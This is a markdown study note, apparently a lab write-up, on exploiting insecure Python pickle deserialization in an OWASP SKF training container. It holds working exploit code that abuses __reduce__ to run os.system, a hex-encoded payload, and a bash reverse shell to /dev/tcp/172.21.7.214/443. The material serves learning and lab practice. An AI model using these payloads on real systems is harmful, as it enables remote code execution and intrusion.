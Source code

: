 ```yaml
---
tags:
  - vulnerabilty
  - "#deserializationpickle"
  - python
---
```

# What is Pickle?

Is a module for serializing (pickling) and deserializing (unpickling) Python objects

---

# Exploiting

Open the browser localhost:5000

![](../../Images/Pasted%20image%2020230906202717.png)

The data that we put in the form is keeping in a variable named **att**

The problem is that **there isn't any type of sanitization**, you can see the code in **/python/DES-Pickle/DES-Pickle.py**

![](../../Images/Pasted%20image%2020230906203747.png)

In Pickle there are a function that is named `___reduce__` that you can indicate how do you like to deserialize or what action to do

Normally to do this attack you have to create a file, in this case we are going to named his **exploitation.py**

````python
#!/usr/bin/python3

import pickle
import os
import binascii

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id',))

if __name__ == '__main__':
    print(pickle.dumps(Exploit()))

````

`binascii` --> We are going to use this library to represent the string in hexadecimal

`__reduce__` --> Special method to personality how deserialized an object 

`'id',` --> This is for represent a tupla (similar that a list) with only one element and not a string

`pickle.dumps()` --> To show in console the serialized data

If you execute the program you are going to see a lot of bytes, but this have to be in hexadecimal:

![](../../Images/Pasted%20image%2020230906205807.png)

Remember we know that is in hexadecimal because we see in the source code

To represent in hexadecimal you can use the library **binascii**

````python
#!/usr/bin/python3

import pickle
import os
import binascii

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id',))

if __name__ == '__main__':
    print(binascii.hexlify(pickle.dumps(Exploit())))

````

![](../../Images/Pasted%20image%2020230906205952.png)

The string is between single quotes

````bash
8004951d000000000000008c05706f736978948c0673797374656d9493948c02696494859452942e
````

Now you can introduce this in the website

![](../../Images/Pasted%20image%2020230906210103.png)

But what happen?

This code has been executed but don't show the output (normally is the status code)

To verify if the command is well executing we can listen in port 443 (with [Netcat](../../Tools/Netcat.md))

And put a [Reverse shells](../../Shells/Reverse%20shell/Reverse%20shells.md) in our exploit:

````python
#!/usr/bin/python3

import pickle
import os
import binascii

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/172.21.7.214/443 0>&1"',))

if __name__ == '__main__':
    print(binascii.hexlify(pickle.dumps(Exploit())))

````

We gain access!!

![](../../Images/Pasted%20image%2020230906210558.png)



---

# Labs

> sudo docker pull blabla1337/owasp-skf-lab:des-pickle

> sudo docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle